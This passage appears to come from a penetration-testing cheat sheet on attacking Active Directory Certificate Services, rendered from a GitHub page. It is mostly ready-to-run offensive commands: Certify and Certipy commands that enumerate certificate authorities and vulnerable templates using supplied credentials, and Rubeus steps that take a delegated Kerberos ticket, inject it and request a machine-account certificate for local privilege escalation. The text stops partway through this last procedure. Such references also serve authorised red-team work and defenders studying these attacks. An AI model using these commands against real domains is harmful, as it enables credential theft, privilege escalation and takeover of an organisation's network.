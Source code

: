 ````
python3 aclpwn.py --restore aclpwn.restore
```

## Active Directory Certificate Services
- Whitepaper https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf
- https://www.thehacker.recipes/ad/movement/ad-cs
- https://github.com/GhostPack/Certify
- https://github.com/ly4k/Certipy

### Enumeration
#### Find AD CS Certificate authorities (CA's)
```
Get-ADObject -Filter * -SearchBase 'CN=Certification Authorities,CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<DOMAIN>'

Get-DomainGroupMember "Cert Publishers"

.\Certify.exe cas

certipy find -u '<USER>@<DOMAIN>' -p '<PASSWORD>' -dc-ip '<DC_IP>' -stdout
```

#### List all templates
```
.\Certify.exe find

certipy find -u '<USER>@<DOMAIN>' -p '<PASSWORD>' -dc-ip '<DC_IP>' -stdout
```

#### Enumerate vulnerable templates
- This checks also for `Object Control`, if you have multiple users then don't run `/vulnerable` but check manually!
 ```
.\Certify.exe find /vulnerable

certipy find -u '<USER>@<DOMAIN>' -p '<PASSWORD>' -dc-ip '<DC_IP>' -old-bloodhound
certipy find -u '<USER>@<DOMAIN>' -p '<PASSWORD>' -dc-ip '<DC_IP>' -vulnerable -stdout
```

### Local privesc CertPotato
- Requirements
	- ADCS configured & Machine template
	- Access to Virtual or network service account

### Windows
#### Get TGT on target machine
```
.\Rubeus.exe tgtdeleg /nowrap
```

#### Inject ticket
```
.\Rubeus ptt /ticket:<BASE64 TICKET>
```

#### Check for machine template
- Check for `pkiextendedkeyusage` set to `Client Authentication`
```
.\Certify.exe find
```

#### Request template using machine template
```
.\Certify.exe request /ca:<CA SERVER>\<CA NAME> /user:<COMPUTERACCOUNT>$ /domain:<FQDN DOMAIN> /template:<TEMPLATE NAME>
```
````